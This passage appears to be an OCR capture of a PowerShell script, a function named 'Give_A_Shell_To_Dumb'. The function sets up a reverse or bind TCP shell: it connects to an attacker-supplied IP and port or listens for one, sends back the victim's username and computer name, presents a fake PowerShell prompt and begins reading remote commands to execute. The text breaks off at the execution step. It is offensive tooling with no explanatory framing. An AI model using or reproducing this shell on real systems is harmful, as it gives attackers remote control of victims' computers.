 ```powershell
function Give_A_Shell_To_Dumb
{
<#
#>
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )


    try
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()
            $client = $listener.AcceptTcpClient()
        }

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
```